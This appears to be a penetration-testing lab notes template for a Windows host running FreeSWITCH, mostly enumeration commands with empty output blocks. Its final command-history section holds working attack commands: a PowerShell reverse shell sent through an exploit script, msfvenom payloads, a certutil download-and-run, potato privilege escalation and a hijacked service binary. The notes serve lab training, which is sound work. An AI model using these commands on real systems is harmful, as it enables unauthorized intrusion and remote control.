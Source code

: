 # 192.168.x.143
# Navigation
- [Summary](#summary)
- [Flags](#flags)
- [Accounts](#accounts)
- [Enumeration](#enumeration)
    - [NMAP](#nmap)
    - [Local Users](#local-users)
    - [Local Groups](#local-groups)
    - [System Info](#system-info)
    - [Routes](#routes)
    - [Netstat](#netstat)
    - [Environment Vars](#environment-vars)
    - [Domain Controller Info](#domain-controller-info)
- [Services](#services)
    - [API Endpoints](#api-endpoints)
- [Command History](#command-history)
# Summary
-
# Flags    
`Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue -Include local.txt,proof.txt`
`sudo find / -type f -iname "local.txt" 2>/dev/null`    
`sudo find / -type f -iname "proof.txt" 2>/dev/null`

- C:\Users\chris\Desktop\local.txt
- C:\Users\Administrator\Desktop\proof.txt

# Accounts
### username / password
`<connection method>`   
`whoami /priv`
```

```
`whoami /groups`
```

```
# Enumeration
## NMAP
`sudo nmap -sV 192.168.204.151 --top-ports 1000`
```
ORT     STATE SERVICE          VERSION
80/tcp   open  http             Microsoft IIS httpd 10.0
3389/tcp open  ms-wbt-server    Microsoft Terminal Services
5060/tcp open  sip-proxy        FreeSWITCH mod_sofia 1.10.1~64bit
5080/tcp open  sip-proxy        FreeSWITCH mod_sofia 1.10.1~64bit
7443/tcp open  ssl/websocket    (WebSocket version: 13)
8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket
8081/tcp open  websocket        (WebSocket version: 13)
8082/tcp open  ssl/websocket    (WebSocket version: 13)
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port8081-TCP:V=7.95%I=7%D=6/18%Time=68534EAA%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,37,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nSec-WebSocket-Versio
SF:n:\x2013\r\n\r\n")%r(GenericLines,37,"HTTP/1\.1\x20400\x20Bad\x20Reques
SF:t\r\nSec-WebSocket-Version:\x2013\r\n\r\n")%r(HTTPOptions,37,"HTTP/1\.1
SF:\x20400\x20Bad\x20Request\r\nSec-WebSocket-Version:\x2013\r\n\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port8082-TCP:V=7.95%T=SSL%I=7%D=6/18%Time=68534EBF%P=x86_64-pc-linux-gn
SF:u%r(GenericLines,37,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nSec-WebSocke
SF:t-Version:\x2013\r\n\r\n")%r(GetRequest,37,"HTTP/1\.1\x20400\x20Bad\x20
SF:Request\r\nSec-WebSocket-Version:\x2013\r\n\r\n")%r(HTTPOptions,37,"HTT
SF:P/1\.1\x20400\x20Bad\x20Request\r\nSec-WebSocket-Version:\x2013\r\n\r\n
SF:");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```
`sudo nmap -A -T4 -p- 192.168.204.151`
```


```
## Local Users
`Get-LocalUser`
```

```
## Local Groups
`Get-LocalGroup`
```

```
## System Info
`systeminfo`
```

```
## Routes
`route print`
```

```
## Netstat
`netstat -ano`
```

```
## Environment Vars
`Get-ChildItem Env:`
```

```
## Domain Controller Info
`nltest /dsgetdc:medtech`
```

```
# Services    
## API Endpoints
`gobuster dir -u http://192.168.133.143:80/api/ -w /usr/share/seclists/Discovery/Web-Content/common.txt`
```

```

`gobuster dir -u http://192.168.133.143:80/api/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -b 403`
```
```

`ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://192.168.133.143/FUZZ`
```

```
`ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -u http://192.168.133.143/FUZZ`
```
```

# Command History
```c
nc -lvnp 4444

python3 ./47799.py 192.168.148.151 'powershell -nop -w hidden -c "$client = New-Object System.Net.Sockets.TCPClient(\"192.168.45.185\",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"'

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.185 LPORT=4444 -f exe -o shell.exe

msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.45.186
set LPORT 4444
run

python3 ./47799.py 192.168.148.151 'certutil -urlcache -split -f http://192.168.45.185/shell2.exe shell2.exe && shell2.exe'

// get meterpreter session

getuid

upload SigmaPotato.exe



RoguePotato.exe -r 192.168.45.186 -e "C:\windows\system32\cmd.exe" -l 9999


msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.185 LPORT=9999 -f exe -o KiteService2.exe

upload KiteService.exe
move to C:\Program Files\Kite
nc -lvnp 9999

net stop KiteService
net start KiteService

//get reverse shell

```